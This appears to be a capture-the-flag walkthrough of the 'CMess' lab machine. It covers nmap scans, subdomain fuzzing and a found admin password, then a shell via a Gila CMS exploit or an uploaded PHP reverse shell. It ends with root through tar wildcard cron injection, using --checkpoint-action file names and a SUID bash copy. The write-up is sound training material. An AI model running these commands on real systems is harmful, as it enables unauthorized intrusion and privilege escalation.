nmap scan 
```sh
nmap -p- --min-rate 5000 -T4 -Pn 10.82.167.111
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 20:27 IST
Warning: 10.82.167.111 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.82.167.111
Host is up (0.15s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 17.05 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 22,80 10.82.167.111   
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-06 20:28 IST
Nmap scan report for 10.82.167.111
Host is up (0.22s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d9:b6:52:d3:93:9a:38:50:b4:23:3b:fd:21:0c:05:1f (RSA)
|   256 21:c3:6e:31:8b:85:22:8a:6d:72:86:8f:ae:64:66:2b (ECDSA)
|_  256 5b:b9:75:78:05:d7:ec:43:30:96:17:ff:c6:a8:6c:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: Gila CMS
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-robots.txt: 3 disallowed entries 
|_/src/ /themes/ /lib/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.06 seconds
```

Directory brute forcing
```sh
feroxbuster -u http://IP
```




Subdomains enumeration
```sh
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://FUZZ.cmess.thm -fw 522 
```






Now that you have found the `dev` domain you should have navigated to it and found the following credentials;

- Email: andre@cmess.thm
- Password: KPFTN_f2yxe%

As to be expected, Andre has not been very security conscious and has kept the password the same.

We are able to navigate to the `/admin` login portal and use the credentials.

When I log into an admin portal, I normally try and look for a few things;

- Is there version information, if I haven’t got it already?
- Is there a command console or similar?
- What about some file uploading capability?




### Method 1 (Running public exploit)
![[cmess8.png]]





We got the shell

We got our shell but we can’t access **andre** folder that locates the **user.txt** file show permission-denied message.


### **_>_** Find escalation path using **linpeas.sh**
Start python server on our local machine

After that with the help of **wget** download **linpeas.sh** in the **/tmp** folder.

Give execute permission to it **chmod +x linpeas.sh** run it **./linpeas.sh**



We got one hidden **bak** file stored in **/opt** folder and **cron job**





When we did our original port scanning, we saw port 22 was open (ssh), so we might as well try that.



In this scenario, every 2 min all the files and folders in the **/home/andre/backup** folder are backed up into the **/tmp** folder as **andre_backup.tar.gz** using **tar** but there is a catch i.e *** (wildcard)** it means anything in the **/home/andre/backup** folder is backup and we can use this functionality to abuse this machine.

### Linux Escalation via Cron Wildcards (Same as skynet)

```sh
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash;' > shell.sh
```
This will copy the executable Bash ELF(/bin/bash) into `/tmp/bash` and then give it the SUID bit, an action that is allowed as the script will be triggered by the cronjob, which is running as root.

With that created, we make the file executable with `chmod +x <file_name>` and then create two more files, because these file names start with `-` we need to create them using an absolute file path.
```sh
touch /home/andre/backup/--checkpoint=1  
touch /home/andre/backup/--checkpoint-action=exec=sh\ shell.sh
```


Wait for 2 minutes to all this files to be appeared in respective directories.




Type command: **/tmp/bash -p** (For execute **/tmp/bash** folder)

And we got our root shell




### Method 2 (Manual proocess to gain shell by uploading reverse shell) TRY 


Navigate to content and click on file manageer.
Upload php reverse shell

Tried to explore all the tabs in the admin panel and we got some upload functionality. Try to upload reverse shell because the website is running on an **Apache** server then **PHP** is very convenient for reverse shell.



_However_, you can actually just directly navigate to the file, e.g. `cmess.thm/assets/phpReverseShell.php` and the payload will still trigger. Didn’t realize that until writing this post.


